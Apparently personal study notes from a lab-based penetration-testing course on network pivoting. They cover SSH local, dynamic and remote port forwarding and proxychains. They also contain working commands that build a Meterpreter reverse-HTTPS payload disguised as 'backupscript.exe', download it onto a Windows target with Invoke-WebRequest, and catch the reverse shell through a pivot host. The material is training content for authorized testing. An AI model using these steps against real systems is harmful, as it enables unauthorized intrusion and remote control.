








- Pivoting
- Introduction
- Starting the Tunnels
- Socat
- Pivoting around Obstacles
- Branching out the Tunnels
- Double Pivots
- Detection & Prevention
Pivoting
Introduction
Lateral Movement, Pivoting, and Tunneling Compared
Lateral Movement
... can be described as a technique used to further your access to additional hosts, applications, and services within a network environment. Lateral movement can also help you gain access to specific domain resources you may need to elevate your privileges. Lateral Movement often enables privesc across hosts.
Pivoting
Utilizing multiple hosts to cross network boundaries you would not usually have access to. This is more of a targeted objective. The goal here is to allow you to move deeper into a network by compromising targeted hosts or infrastructure.
Tunneling
You often find yourself using various protocols to shuttle traffic in/out of a network where there is a chance of your traffic being detected. For example, using HTTP to mask your C2 traffic from a server you own to the victim host. The key here is obfuscation of your actions to avoid detection for as long as possible. You utilize protocols with enhanced security measures such as HTTPS over TLS or SSH over other protocols. These types of actions also enable tactics like the exfiltration of data out of a target network or the delivery of more payloads and instructions into the network.
The Networking Behind Pivoting
IP Addressing & NICs
Every Computer that is communicating on a network needs an IP address. If it doesn't have one, it is not on a network. The IP address is assigned in software and usually obtained automatically from a DHCP server. It is also common to see computers with statically assigend IP addresses. Static IP assignment is common with:
- servers
- routers
- switch virtual interfaces
- printers
- and any devices that are providing critical services to the network
Whether assigned dynamically or statically, the IP address is assigned to a Network Interface Controller (NIC). Commonly, the NIC is referred to as a a Network Interface Card or Network Adapter. A computer can have multiple NICs, meaning it can have multiple IP addresses assigned, allowing it to communicate on various networks. Identifying pivoting oppurtunities will often depend on the specific IPs assigned to the hosts you compromise because they can indicate the networks compromised hosts can reach. This is why it is important for you to always check for additional NICs using commands like ifconfig.
d41y@htb[/htb]$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 134.122.100.200 netmask 255.255.240.0 broadcast 134.122.111.255
inet6 fe80::e973:b08d:7bdf:dc67 prefixlen 64 scopeid 0x20<link>
ether 12:ed:13:35:68:f5 txqueuelen 1000 (Ethernet)
RX packets 8844 bytes 803773 (784.9 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 5698 bytes 9713896 (9.2 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.106.0.172 netmask 255.255.240.0 broadcast 10.106.15.255
inet6 fe80::a5bf:1cd4:9bca:b3ae prefixlen 64 scopeid 0x20<link>
ether 4e:c7:60:b0:01:8d txqueuelen 1000 (Ethernet)
RX packets 15 bytes 1620 (1.5 KiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 18 bytes 1858 (1.8 KiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 19787 bytes 10346966 (9.8 MiB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 19787 bytes 10346966 (9.8 MiB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500
inet 10.10.15.54 netmask 255.255.254.0 destination 10.10.15.54
inet6 fe80::c85a:5717:5e3a:38de prefixlen 64 scopeid 0x20<link>
inet6 dead:beef:2::1034 prefixlen 64 scopeid 0x0<global>
unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 500 (UNSPEC)
RX packets 0 bytes 0 (0.0 B)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 7 bytes 336 (336.0 B)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
In the output above, each NIC has an identifier (eth0, eth1, lo, tun) followed by addressing information and traffic statistics. The tunnel interface indicates a VPN connection is active. The VPN encrypts traffic and also establishes a tunnel over a public network, through NAT on a public-facing network appliance, and into the internal/private network. Also, notice the ISPs will route traffic originating from this IP over the internet. You will see public IPs on devices that are directly facing the internet, commonly hosted ind DMZs. The other NICs have private IP addresses, which are routable within internal networks but not over the public internet.
PS C:\Users\htb-student> ipconfig
Windows IP Configuration
Unknown adapter NordLynx:
Media State . . . . . . . . . . . : Media disconnected
Connection-specific DNS Suffix . :
Ethernet adapter Ethernet0 2:
Connection-specific DNS Suffix . : .htb
IPv6 Address. . . . . . . . . . . : dead:beef::1a9
IPv6 Address. . . . . . . . . . . : dead:beef::f58b:6381:c648:1fb0
Temporary IPv6 Address. . . . . . : dead:beef::dd0b:7cda:7118:3373
Link-local IPv6 Address . . . . . : fe80::f58b:6381:c648:1fb0%8
IPv4 Address. . . . . . . . . . . : 10.129.221.36
Subnet Mask . . . . . . . . . . . : 255.255.0.0
Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:df81%8
10.129.0.1
Ethernet adapter Ethernet:
Media State . . . . . . . . . . . : Media disconnected
Connection-specific DNS Suffix . :
The output directly above is from issuing ipconfig on a Windows system. You can see that this system has multiple adapters, but only one of them has IP addresses assigned. There are IPv6 and IPv4 addresses.
Every IPv4 address will have a corresponding subnet mask. If an IP address is like a phone number, the subnet mask is like the area code. Remember that the subnet mask defines the network & host portion of an IP address. When network traffic is destined for an IP address located in a different network, the computer will send the traffic to its assigned default gateway. The default gateway is usually the IP address assigned to a NIC on an appliance acting as the router for a given LAN. In the context of pivoting, you need to be mindful of what networks a host you land on can reach, so documenting as much IP addressing information as possible on an engagement can prove helpful.
Routing
It is common to think of a network appliance that connects you to the internet when thinking about a router, but technically any computer can become a router and participate in routing. One key defining characteristic of a router is that it has a routing table that it uses to forward traffic based on the destination IP address.
d41y@htb[/htb]$ netstat -r
Kernel IP routing table
Destination Gateway Genmask Flags MSS Window irtt Iface
default 178.62.64.1 0.0.0.0 UG 0 0 0 eth0
10.10.10.0 10.10.14.1 255.255.254.0 UG 0 0 0 tun0
10.10.14.0 0.0.0.0 255.255.254.0 U 0 0 0 tun0
10.106.0.0 0.0.0.0 255.255.240.0 U 0 0 0 eth1
10.129.0.0 10.10.14.1 255.255.0.0 UG 0 0 0 tun0
178.62.64.0 0.0.0.0 255.255.192.0 U 0 0 0 eth0
Any traffic destined for networks not present in the routing table will be sent to the default route, which can also be referred to as the default gateway or gateway of last resort. When looking for oppurtunities to pivot, it can be helpful to look at the hosts' routing table to identify which networks you may be able to reach or which routes you may need to add.
Protocols, Services & Ports
Protocols are the rules that govern network communications. Many protocols and services have corresponding ports that act as identifiers. Logical ports aren't physical things you can touch or plug anything into. They are in software assigned to applications. When you see an IP address, you know it identifies a computer that may be reachable over a network. When you see an open port bound to that IP address, you know that it identifies an application you may be able to connect to. Connecting to specific ports that a device is listening on can often allow you to use ports & protocols that are permitted in the firewall to gain a foothold on the network.
For example, a web server using HTTP. The admins should not block traffic coming inbound on port 80. This would prevent anyone from visiting the website they are hosting. This is often a way into the network environment, through the same port that legitimate traffic is passing.
Starting the Tunnels
Dynamic Port Forwarding with SSH and SOCKS Tunneling
Port Forwarding
... is a technique that allows you to redirect a communication request from one port to another. Port forwarding uses TCP as the primary communication layer to provide interactive communication for the forwarded port. However, different application layer protocols such as SSH or even SOCKS can be used to encapsulate the forwarded traffic. This can be effective in bypassing firewalls and using existing services on your compromised host to pivot to other networks.
SSH Local Port Forwarding

Scanning the Pivot Target
You have your attack host (10.10.15.x) and a target Ubuntu server (10.129.x.x), which you have compromised. You will scan the target Ubuntu server using nmap to search for open ports.
d41y@htb[/htb]$ nmap -sT -p22,3306 10.129.202.64
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:12 EST
Nmap scan report for 10.129.202.64
Host is up (0.12s latency).
PORT STATE SERVICE
22/tcp open ssh
3306/tcp closed mysql
Nmap done: 1 IP address (1 host up) scanned in 0.68 seconds
Executing the Local Port Forward
The nmap output shows that the SSH port is open. To access the MySQL service, you can either SSH into the server and access MySQL from inside the Ubuntu server, or you can port forward it to your localhost on port 1234 and access it locally. A benefit of accessing it locally is if you want to execute a remote exploit on the MySQL service, you won't be able to do it without port forwarding. This is due to MySQL being hosted locally on the Ubuntu server on port 3306. So, you will use the below command to forward your local port over SSH to the Ubuntu server.
d41y@htb[/htb]$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
ubuntu@10.129.202.64's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Thu 24 Feb 2022 05:23:20 PM UTC
System load: 0.0
Usage of /: 28.4% of 13.72GB
Memory usage: 34%
Swap usage: 0%
Processes: 175
Users logged in: 1
IPv4 address for ens192: 10.129.202.64
IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
IPv4 address for ens224: 172.16.5.129
* Super-optimized for small spaces - read how we shrank the memory
footprint of MicroK8s to make it the smallest full K8s around.
https://ubuntu.com/blog/microk8s-memory-optimisation
66 updates can be applied immediately.
45 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
The -L command tells the SSH client to request the SSH server to forward all the data you send via the port 1234 to localhost:3306 on the Ubuntu server. By doing this, you should be able to access the MySQL service locally on port 1234. You can use Netstat or nmap to query your localhost on port 1234 to verify whether the MySQL service was forwarded.
Confirming Port Forward with Netstat
d41y@htb[/htb]$ netstat -antp | grep 1234
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
tcp 0 0 127.0.0.1:1234 0.0.0.0:* LISTEN 4034/ssh
tcp6 0 0 ::1:1234 :::* LISTEN 4034/ssh
Confirming Port Forward with nmap
d41y@htb[/htb]$ nmap -v -sV -p1234 localhost
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:18 EST
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 12:18
Scanning localhost (127.0.0.1) [2 ports]
Completed Ping Scan at 12:18, 0.01s elapsed (1 total hosts)
Initiating Connect Scan at 12:18
Scanning localhost (127.0.0.1) [1 port]
Discovered open port 1234/tcp on 127.0.0.1
Completed Connect Scan at 12:18, 0.01s elapsed (1 total ports)
Initiating Service scan at 12:18
Scanning 1 service on localhost (127.0.0.1)
Completed Service scan at 12:18, 0.12s elapsed (1 service on 1 host)
NSE: Script scanning 127.0.0.1.
Initiating NSE at 12:18
Completed NSE at 12:18, 0.01s elapsed
Initiating NSE at 12:18
Completed NSE at 12:18, 0.00s elapsed
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0080s latency).
Other addresses for localhost (not scanned): ::1
PORT STATE SERVICE VERSION
1234/tcp open mysql MySQL 8.0.28-0ubuntu0.20.04.3
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.18 seconds
Forwarding Multiple Ports
Similarly, if you want to forward multiple ports from the Ubuntu server to your localhost, you can do so by including the local port:server:port argument to your SSH command.
d41y@htb[/htb]$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
Setting up to Pivot (Dynamic Port Forwarding)
Now, if you type ifconfig on the Ubuntu host, you will find that this server has multiple NICs:
- one connected to your attack host
- one communicating to other hosts within a different network
- the loopback interface
ubuntu@WEB01:~$ ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 10.129.202.64 netmask 255.255.0.0 broadcast 10.129.255.255
inet6 dead:beef::250:56ff:feb9:52eb prefixlen 64 scopeid 0x0<global>
inet6 fe80::250:56ff:feb9:52eb prefixlen 64 scopeid 0x20<link>
ether 00:50:56:b9:52:eb txqueuelen 1000 (Ethernet)
RX packets 35571 bytes 177919049 (177.9 MB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 10452 bytes 1474767 (1.4 MB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
ens224: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 172.16.5.129 netmask 255.255.254.0 broadcast 172.16.5.255
inet6 fe80::250:56ff:feb9:a9aa prefixlen 64 scopeid 0x20<link>
ether 00:50:56:b9:a9:aa txqueuelen 1000 (Ethernet)
RX packets 8251 bytes 1125190 (1.1 MB)
RX errors 0 dropped 40 overruns 0 frame 0
TX packets 1538 bytes 123584 (123.5 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
inet 127.0.0.1 netmask 255.0.0.0
inet6 ::1 prefixlen 128 scopeid 0x10<host>
loop txqueuelen 1000 (Local Loopback)
RX packets 270 bytes 22432 (22.4 KB)
RX errors 0 dropped 0 overruns 0 frame 0
TX packets 270 bytes 22432 (22.4 KB)
TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
Unlike the previous scenario where you knew which port to access, in your current scenario, you don't know which services lie on the other side of the network. So, you can scan smaller ranges of IPs on the network (172.16.5.1-200) network or the entire subnet. You cannot perform this attack directly from your attack host because it does not have routes to the network. To do this, you will have to perform dynamic port fowarding and pivot your network packets via the Ubuntu server. You can do this by starting a SOCKS listener on your localhost and then configure SSH to forward that traffic via SSH to the network after connecting to the target host.
This is called SSH tunneling over SOCKS proxy. SOCKS stands for Socket Secure, a protocol that helps communicate with servers where you have firewall restrictions in place. Unlike most cases where you would initiate a connection to connect to a service, in the case of SOCKS, the initial traffic is generated by a SOCKS client, which connects to the SOCKS server controlled by the user who wants to access a service on the client-side. Once the connection is established, network traffic can be routed through the SOCKS server on behalf of the connected client.
This technique is often used to circumvent the restrictions put in place by firewalls, and allow an external entity to bypass the firewall and access a service within the firewalled environment. One more benefit of using SOCKS proxy for pivoting and forwarding data is that SOCKS proxies can pivot via creating a route to an external server from NAT networks. SOCKS proxies are currently of two types: SOCKS4 and SOCKS5. SOCKS4 doesn't provide any authentication and UDP support, whereas SOCKS5 does provide that

In the above image, the attack host starts the SSH client and requests the SSH server to allow it to send some TCP data over the SSH socket. The SSH server responds with an ack, and the SSH client then starts listening on localhost:9050. Whatever data you send here will be broadcasted to the entire network over SSH. You can use the below command to perform this dynamic port forwarding.
Enabling Dynamic Port Forwarding with SSH
d41y@htb[/htb]$ ssh -D 9050 ubuntu@10.129.202.64
The -D argument requests the SSH server to enable dynamic port forwarding. Once you have this enabled, you will require a tool that can route any tool's packets over the port 9050. You can do this using proxychains, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows you to chain multiple proxy servers together. Using proxychains, you can hide the IP address of the requesting host as well since the receiving host will only see the IP of the pivot host. Proxychains is often used to force an application's TCP traffic to go through hosted proxies like SOCKS4/SOCKS5, TOR, or HTTP/HTTPS proxies.
Checking /etc/proxychains.conf
To inform proxychains that you must use port 9050, you must modify the proxychains config file located at /etc/proxychains.conf. You can add socks4 127.0.0.1 9050 to the last line if it is not already there.
d41y@htb[/htb]$ tail -4 /etc/proxychains.conf
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 9050
Using nmap with Proxychains
Now when you start nmap with proxychains using the command below, it will route all the packets of nmap to the local port 9050, where your SSH client is listening, which will forward all the packets over SSH to the network.
d41y@htb[/htb]$ proxychains nmap -v -sn 172.16.5.1-200
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-24 12:30 EST
Initiating Ping Scan at 12:30
Scanning 10 hosts [2 ports/host]
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.2:80-<--timeout
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.5:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.6:80-<--timeout
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
<SNIP>
This part of packing all your nmap data using proxychains and forwarding it to a remote server is called SOCKS tunneling. One more important note to remember here is that you can only perform a full TCP connect scan over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results. You also need to make sure you are aware of the fact that host-alive checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests by default.
A full TCP connect scan without ping on an entire network range will take a long time.
Using Metasploit with Proxychains
You can also open Metasploit using proxychains and send all associated traffic through the proxy you have established.
d41y@htb[/htb]$ proxychains msfconsole
ProxyChains-3.1 (http://proxychains.sf.net)
.~+P``````-o+:. -o+:.
.+oooyysyyssyyssyddh++os-````` ``````````````` `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.` .-.-...-////+++++++++++++++////////~~//////++++++++++++///
`...............` `...-/////...`
.::::::::::-. .::::::-
.hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
:Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
.sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
-Nd` :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
-Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
`oo/``-hd: `` .sNd :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
.yNmMMh//+syysso-`````` -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
.shMMMMN//dmNMMMMMMMMMMMMs` `:```-o++++oooo+:/ooooo+:+o+++oooo++/
`///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
/MMMMMMMMMMMMMMMMMMd. `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
-hMMmssddd+:dMMmNMMh. `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
.sMMmo. -dMd--:mN/` ||--X--|| ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================
Press ENTER to size up the situation
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Press SPACE BAR to continue
=[ metasploit v6.1.27-dev ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops ]
+ -- --=[ 9 evasion ]
Metasploit tip: Adapter names can be used for IP params
set LHOST eth0
msf6 >
Remote/Reverse Port Forwarding with SSH

What happens if you try to gain a reverse shell?
The outgoing connection for the Windows host is only limited to the 172.16.5.0/23 network. This is because the Windows host does not have any direct connection with the network the attack host is on. If you start a Metasploit listener on your attack host and try to get a reverse shell, you won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network to reach the 10.129.x.x.
In cases like this, you would have to find a pivot host, which is a common connection point between your attack host and the Windows server. In your case, your pivot host would be the Ubuntu server since it connect to both: your attack host and the Windows target. To gain a Meterpreter shell on Windows, you will create a Meterpreter HTTPS payload using msfvenom, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address. You will use the port 8080 on the Ubuntu server to forward all of your reverse packets to your attack hosts' 8000 port, where your Metasploit listener is running.
Creating a Windows Payload with msfvenom
d41y@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
... and:
Configuring & Starting the multi/handler
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
Transferring Payload to Pivot Host
Once your payload is created and you have your listener configured & running, you can copy the payload to the Ubuntu server using the scp command since you already have the credentials to connect to the Ubuntu server using SSH.
d41y@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
backupscript.exe 100% 7168 65.4KB/s 00:00
Starting Python3 Webserver on Pivot Host
After copying the payload, you will start a python3 HTTP server using the below command on the Ubuntu server in the same directory where you copied the payload.
ubuntu@Webserver$ python3 -m http.server 8123
Downloading Payload on the Windows Target
You can download this backupscript.exe on the Windows host via a web browser or the PowerShell cmdlet Invoke-Webrequest.
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
Using SSH -R
Once you have your payload downloaded on the Windows host, you will use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to your msfconsole's listener service on port 8000. You will use -vN argument in your SSH command to make it verbose and ask it not to prompt the login shell. The -R command asks the Ubuntu server to listen on <targetIPAddress>:8000 and forward all incoming connections on port 8080 to your msfconsole listener on 0.0.0.0:8000 of your attack host.
Viewing the Logs from the Pivot
After creating the SSH remote port forward, you can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to your listener, you can see the logs from the pivot on the pivot host.
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
Meterpreter Session Established
If all is set up properly, you will receive a Meterpreter shell pivoted via the Ubuntu server.
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
